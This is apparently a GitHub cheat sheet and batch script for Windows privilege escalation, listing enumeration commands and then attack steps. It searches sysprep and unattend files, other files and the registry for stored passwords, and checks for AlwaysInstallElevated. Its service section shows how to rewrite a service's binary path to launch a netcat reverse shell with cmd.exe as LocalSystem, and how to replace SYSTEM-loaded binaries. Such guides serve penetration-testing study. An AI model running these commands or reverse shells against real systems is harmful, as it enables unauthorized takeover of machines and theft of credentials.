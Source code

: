 # Windows Privilege Escalation

Windows privilege escalation commands.

### 1. SYSTEM INFORMATION + ACCOUNTS

```bash
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```vb
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano                # show current TCP/IP network connections
$ netsh firewall show state   # show firewall state
$ netsh firewall show config  # show firewall configuration
```

### 3. WINDOWS TASKS

### 4. QUICK WINS

### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

echo ################################################################ 
echo PART 2: ENUMERATE NETWORKING
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> INTERFACES
ipconfig /all

echo >>>>>>>>>>>>>>>>>>>> ROUTING TABLE
route print

echo >>>>>>>>>>>>>>>>>>>> ARP CACHE TABLE
arp -A

echo >>>>>>>>>>>>>>>>>>>> ACTIVE CONNECTIONS + FIREWALL RULES
netstat -ano
netsh firewall show state
netsh firewall show config

echo ################################################################
echo PART 3: ENUMERATE WINDOWS TASKS                        
echo ################################################################
echo NOTE: TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.

echo >>>>>>>>>>>>>>>>>>>> SCHEDULED TASKS (VERBOSE)
schtasks /query /fo LIST /v

echo >>>>>>>>>>>>>>>>>>>> RUNNING PROCESSES / ASSOCIATED SERVICES
tasklist /SVC

echo >>>>>>>>>>>>>>>>>>>> STARTED WINDOWS SERVICES
net start

echo >>>>>>>>>>>>>>>>>>>> 3RD-PARTY DRIVERS
driverquery

echo ################################################################
echo PART 4: QUICK WINS
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> USER IS AN ADMINISTRATOR
echo NOTE: If your user is part of the "Administrators" group, you can easily get to SYSTEM by reconfiguring a service or creating a scheduled task with SYSTEM privs.
net user %username%

echo >>>>>>>>>>>>>>>>>>>> MISSING WINDOWS PATCHES
echo NOTE: WMIC is mostly not available to non-Administrators.
echo (1) Find Windows privesc exploits.
echo (2) Grep for their existence (using KB numbers) among the list of installed patches.
echo (3) See if any exploits are missing from the patch list.
echo (4) Use exploits and profit.

wmic qfe get Caption,Description,HotFixID,InstalledOn

echo >>>>>>>>>>>>>>>>>>>> HARDCODED CREDENTIALS IN CONFIGURATION FILES
type C:\sysprep.inf
type C:\sysprep\sysprep.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x2
dir /s *pass* == *cred* == *vnc* == *.config*

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x3 (.xml .ini .txt)
findstr /si password *.xml *.ini *.txt

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x4 (in registry)
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

echo >>>>>>>>>>>>>>>>>>>> "AlwaysInstallElevated" SETTING
echo This setting allows users of any priv to install .msi files as SYSTEM.
echo Both values need to = 1 to exploit this.

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

echo ################################################################
echo PART 5: DEEP-DIVE WINDOWS SERVICES, FILE/FOLDER PERMISSIONS
echo ################################################################

echo NOTE: FOR RESTARTING SERVICES OR BINARIES, TRY VARIOUS METHODS SUCH AS:
echo => net start
echo => sc start
echo => mysql> RESTART; (using service commands to restart)

echo >>>>>>>>>>>>>>>>>>>> WINDOWS SERVICES (MANUAL ENUM)
echo (1) Query windows service
echo CMD: sc qc [servicename]
echo (2) Check required privilege level for each service using accesschk.exe
echo CMD: accesschk.exe -ucqv UPNPHOST
echo (3) Find services which allow access for "Authenticated Users" (logged-in users). Also check which group your user belongs to.
echo CMD: accesschk.exe -uwcqv "Authenticated Users" *
echo (4) Re-configure services to execute a root-shell.
echo STEP 1: Change binary path to execute a reverse-shell
echo CMD: sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
echo STEP 2: Change password for service
echo CMD: sc config upnphost obj= ".\LocalSystem" password= ""
echo STEP 3: Start the service and execute your reverse-shell
echo CMD: net start upnphost

accesschk.exe -uwcqv "Authenticated Users" * /accepteula

echo >>>>>>>>>>>>>>>>>>>> FILE AND FOLDER PERMISSIONS

echo (1) Check for weak permissions "NT AUTHORITY\AUTHENTICATED USERS: <I> <M>".
echo CMD: icacls [file or folder path] | cacls [file or folder path] | accesschk.exe -dqv [file or folder path]
echo (2) For binaries that load with SYSTEM privileges, replace with your own binary.

echo Finding all weak folder permissions per drive
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwdqs "Authenticated Users" c:\

echo Finding all weak file permissions per drive
accesschk.exe -uwqs Users c:\*.* /accepteula
accesschk.exe -uwqs "Authenticated Users" c:\*.*

echo >>>>>>>>>>>>>>>>>>>> CHECK PATH SYSTEM VARIABLE (MANUAL ENUM)
echo NOTE: All non-default directories in root "C:\" will give WRITE access to the Authenticated Users group!!!

echo Look for non-default dirs: %path%

